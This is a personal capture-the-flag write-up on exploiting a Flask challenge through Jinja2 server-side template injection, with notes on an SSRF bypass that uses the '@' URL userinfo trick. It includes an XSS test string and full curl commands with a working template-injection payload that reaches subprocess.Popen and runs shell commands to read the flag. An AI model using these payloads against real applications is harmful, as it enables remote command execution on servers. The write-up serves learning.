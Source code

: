 ![[Pasted image 20241011092409.png]]

So I was only able to solve half of this challenge, and I never submitted the flag formally in the CTF. I have not had the chance to review Server Side Template Injections, or Server Side Request Forgeries in my offensive security studies yet. I did not identify the SSRF opportunity but I did identify the SSTI vulnerability. I was pretty proud that I was able to figure that part out without the explicity knowledge of the vulnerability. My web development and systems administration background paid off!

I will write about how I uncovered the SSTI, and discuss what I learned about the SSRF after researching afterwards. To do this, I downloaded the source code and ran locally with docker compose. To bypass the SSRF portion of the challenge I commented out the is_from_localhost decorator so I could access the /secret route.

The flag was kept at / and was named "random name".txt. To solve the challenge, you needed to craft a request that used SSRF to reach the /secret route and perform a SSTI to get the contents of the flag.

## SSTI

Looking through the code, I was able to find the part where user input was not sanitized and would run server-side in the Python code:

![[Pasted image 20241015094851.png]]

Looking at the "admin" variable, you can see that it is inserted into template string without any sanitation. Application side, we see that we can modify that admin variable:

```
<script>alert('hey')</script>
```

![[Pasted image 20241011155627.png]]

![[Pasted image 20241011155640.png]]

XSS is cool but client side code execution is not what we need to get this flag. 

I did some reading about the "render_template_string" Flask function and found that it uses Jinja templates!

I use Ansible a lot in my day job and I was excited that I understood how this is used. I have 3 years of experience working with Flask. Most of that work was for headless APIs and not serving web pages. 

So I just had to figure out how exactly to "pass in" executable code. I found that this could be accomplished with a double mustache. This was my proof of server-side code execution:


![[Pasted image 20241012092421.png]]

```
curl --path-as-is -i -s -k -X $'GET' \
    -H $'Host: 127.0.0.1' -H $'Accept-Language: en-US,en;q=0.9' -H $'Upgrade-Insecure-Requests: 1' -H $'Sec-Fetch-Site: none' -H $'Sec-Fetch-Mode: navigate' -H $'Sec-Fetch-User: ?1' -H $'Sec-Fetch-Dest: document' -H $'Connection: keep-alive' \
    $'http://localhost/secret?admin={{7*7}}'
```

Now I just needed to be able to execute the right server side code to get the contents of the flag.

For this I did need to turn to Google, here are the resources I read:
https://portswigger.net/web-security/server-side-template-injection
https://medium.com/@nyomanpradipta120/ssti-in-flask-jinja2-20b068fdaeee
https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection/jinja2-ssti

The medium article was particularly informative. I learned about how to call config.items() to see the Flask.config object. This is a dictionary representing the configuration of the Flask object. It contains the attributes, functions, and sub-classes necessary to run the application.

Looking at the config.items() object there is not much we can call that will help us get that flag. The article recommended using the from_object() method to inject a library into Flask.config. Best thing for that would be "os":

![[Pasted image 20241012120235.png]]

and now our output:

![[Pasted image 20241012120314.png]]

At this point I was completely reliant upon the Medium article and the hacktricks page. Navigating Python special attributes and methods is something I have had yet to encounter.

Something cool about offensive security is that it really is the "dark side" of the Information Systems domain. As a developer and a systems administrator, I have worked on Flask applications for 3 years. Seeing things from the dark side enables you to learn more about how the thing works. On the "light side" you would almost never have the need or desire to dive this deep into Flask and Python internals. But now I know and all sides of me are better off for it.

Now that we have the "os" library loaded into our config object I was able to find <class 'subprocess.Popen'> at index 351. Using the "css_url" object included in the code, I followed the article and crafted this nifty string:

```
/secret?admin={{css_url.__class__.__mro__[-1].__subclasses__()[351]}}
```

Here is what I learned about this string:
1. accesses the class object defining the css_url object
2. then it accesses the mro or "method resolution order" which is a tuple showing the inheritance hierarchy of the whatever.\_\_class__. Accessing \[-1] will be the last object of the tuple, which is always object
3. In a Python execution context, modules and libraries attach to this root "object". Using the subclasses special method we can reach into those classes by their index. subprocess.Popen was at index 351.

With access to Popen I can call shell commands. Then we just need to add some code to get the contents out in a presentable format. The final injection looks like this:

```
curl --path-as-is -i -s -k -X $'GET' \
    -H $'Host: 127.0.0.1' -H $'Accept-Language: en-US,en;q=0.9' -H $'Upgrade-Insecure-Requests: 1' -H $'Sec-Fetch-Site: none' -H $'Sec-Fetch-Mode: navigate' -H $'Sec-Fetch-User: ?1' -H $'Sec-Fetch-Dest: document' -H $'Connection: keep-alive' \
    $'http://localhost/secret?admin={{css_url.__class__.__mro__[-1].__subclasses__()[351](\'cat+/wb85d3ph.txt\',shell=True,stdout=-1).communicate()[0].strip()}}'
```

To be honest I forgot about encoding the space after the cat command and had to research that as well.

AAAAAND a flag!
![[Pasted image 20241012153624.png]]

## SSRF

BUT in order to get here in the challenge you need to bypass the \@is_from_localhost decorator.

I have not had a chance to go over SSRF in my training so I did not figure this one out on my own. It is not hard to identify that again there was un-sanitized user input through the url GET variable - which was directly passed into a redirect. My previous training (surface level CompTia certifications) led me to understand that this could be an SSRF, but I had no direct experience of performing that attack (which is why I am playing CTF!) Googling around, I started reading about SSRF. Hacktricks had the best information:

https://book.hacktricks.xyz/pentesting-web/ssrf-server-side-request-forgery/url-format-bypass#domain-parser

So I saw the use of the @ symbol in injection attempts. I tried a few combinations but had no such luck. I did not understand why the @ symbol was significant. At this point I ran out of time and had to abandon the challenge.

After the CTF closed, I looked at some write-ups. This one was the best I found:

https://github.com/ItsMeBrille/ctf-writeups/blob/main/TCP1P%20CTF/writeup.md#hacked

Having some time to reflect I realized that I did understand what an @ variable meant. I know that in Uniform Resource Identifier it is used to denote a username:password @ domain. I have obviously used this syntax a thousand times in SSH, HTTP, FTP, SMB connections. Unfortunately I did not make the connection for the malicious context.

Uniform Resource Identifiers are defined in RFC3986:
https://datatracker.ietf.org/doc/html/rfc3986

URIs can consist of 5 components: scheme, authority, path, query, fragment
```
foo://example.com:8042/over/there?name=ferret#nose
         \_/   \______________/\_________/ \_________/ \__/
          |           |            |            |        |
       scheme     authority       path        query   fragment
          |   _____________________|__
         / \ /                        \
         urn:example:animal:ferret:nose
```
There are many rules on syntax and delimiters and such. The @ symbol 
```
ftp://user:password@host:port/path
```
@ is a special delimiter to separate the userinfo from the domain.

In the code, the domain http://dafa.info is pre-pended 

![[Pasted image 20241016091419.png]]

So by using the @ symbol, we essentially negate the pre-pending action. We can use any number of localhost variants for the host to forger the request to the /secret route and make it appear like it came from localhost as the decorator requires.

So you would craft this string and add what I came up with for the SSTI, get the flag, and profit.
